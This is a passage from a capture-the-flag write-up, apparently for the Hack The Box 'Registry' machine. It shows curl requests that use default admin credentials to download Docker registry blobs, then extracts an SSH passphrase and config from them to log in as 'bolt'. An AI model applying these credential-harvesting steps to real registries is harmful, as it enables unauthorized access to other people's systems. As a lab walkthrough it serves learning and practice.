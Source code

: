 This confirms that we can download one of the blobs and perhaps find some files in it.&#x20;

```bash
$ curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://docker.registry.htb/v2/bolt-image/blobs/sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b -L -o blob.tar
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   335  100   335    0     0   5348      0 --:--:-- --:--:-- --:--:--  5403
```

When viewing the file contents, we will find a file at `/etc/profile.d/01-ssh.sh`.

```bash
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

I downloaded the other files to see if there were any other interesting things. Eventually, I did find a SSH private key

<figure><img src="../../../.gitbook/assets/image (18) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>

```bash
$ curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://docker.registry.htb/v2/bolt-image/blobs/sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791 -L -o blob3.tar
# contents witin /root/.ssh/config:                   
Host registry
  User bolt
  Port 22
  Hostname registry.htb
# using password GkOcz221Ftb3ugog from earlier
```

With these, we can SSH in as `bolt`.
